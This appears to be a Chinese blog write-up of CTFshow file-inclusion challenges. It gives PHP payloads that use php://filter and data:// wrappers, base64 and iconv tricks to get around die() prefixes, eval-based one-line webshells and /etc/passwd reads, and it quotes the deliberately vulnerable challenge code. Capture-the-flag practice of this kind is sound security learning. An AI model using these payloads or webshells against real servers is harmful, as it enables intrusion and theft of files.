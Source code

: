 ```yaml
---
title: CTFshow_web入门_文件包含
date: 2020-10-11 16:21:46
categories: web入门
---
```


CTFshow_web入门_文件包含

<!--more-->

![](http://img.npfs06.top/20210226200957.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

## web 78

payload:?file=php://filter/read=convert.base64-encode/resource=flag.php



## web 79

payload: ?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=



## web 80-81

关于日志文件包含的知识点这个文章里已经写的很详细了<a href='http://npfs06.top/2020/07/04/日志文件包含' target='_blank'>日志文件包含</a>

可能要多发包几次

![](http://img.npfs06.top/20210226161849.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



![](http://img.npfs06.top/20210226161903.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)





## web 82-86

解法单独写了一篇文章：<a href='http://npfs06.top/2020/10/11/利用PHP-SESSION-UPLOAD-PROGRESS进行文件包含' target="_blank">利用PHP-SESSION-UPLOAD-PROGRESS进行文件包含</a>

 

## web 87

P神文章奉上：<a href='https://www.leavesongs.com/PENETRATION/php-filter-magic.html?page=2#reply-list' target="_blank">谈一谈php://filter的妙用</a>

```php
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

先分析一下这个代码，主要就是说过滤了php、data、: 、. ,然后将content参数的值写入到file参数所定义的文件里，但是一同写入的还有<?php die('大佬别秀了');?>，在开头增加了die的过程，导致即使我们成功写入一句话，也执行不了

我们所要做的就是绕过die ，从而执行我们写入的一句话，如何绕或在P神的文章里写了很详细了，总共有三种方法，不过我在这个题目，尝试这三种方法，但只有一种成功。可能是因为版本原因或是别的....，导致另外两种方法执行失败

我用的是base64-decode的解法

```

将 php://filter/read=convert.base64-encode/resource=123.php 进行两次url编码，得到如下

%25%37%30%25%36%38%25%37%30%25%33%41%25%32%46%25%32%46%25%36%36%25%36%39%25%36%43%25%37%34%25%36%35%25%37%32%25%32%46%25%37%32%25%36%35%25%36%31%25%36%34%25%33%44%25%36%33%25%36%46%25%36%45%25%37%36%25%36%35%25%37%32%25%37%34%25%32%45%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%44%25%36%35%25%36%45%25%36%33%25%36%46%25%36%34%25%36%35%25%32%46%25%37%32%25%36%35%25%37%33%25%36%46%25%37%35%25%37%32%25%36%33%25%36%35%25%33%44%25%33%31%25%33%32%25%33%33%25%32%45%25%37%30%25%36%38%25%37%30%0D%0A

```

然后再content写入经过base64编码过后的一句话 （PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg==）

![](http://img.npfs06.top/20210226161925.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



之后来到123.php页面，命令执行即可

![](http://img.npfs06.top/20210226161937.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



## web 88

payload:?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmwwZy5waHAnKTsgPz4

即 ?file=data://text/plain;base64,<?php system('cat fl0g.php');?>



## web116

hint: misc+lfi

既然提示了misc,那就按照misc的常见解法，把视频下载下来，binwalk 分离试下，得到一张Png图片。图片内容如下：

![](http://img.npfs06.top/20210226162658.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



尝试

> ?file=/etc/passwd

把视频下载下来，notepad++打开发现确实是/etc/passwd文件内容，知道了思路，接下去就简单了

payload:

> ?file=compress.zlib:///var/www/html/flag.php 
>
> ?file=flag.php



## web117

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

死亡die绕过

可以使用convert.iconv.*
<a href='https://xz.aliyun.com/t/8163#toc-11' target="_blank">file_put_content和死亡·杂糅代码之缘</a>
原理：对原有字符串进行某种编码然后再解码，这个过程导致最初的限制exit;去除。

构造

```
get:?file=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
post:contents=?<hp pvela$(P_SO[T]1;)>?
```

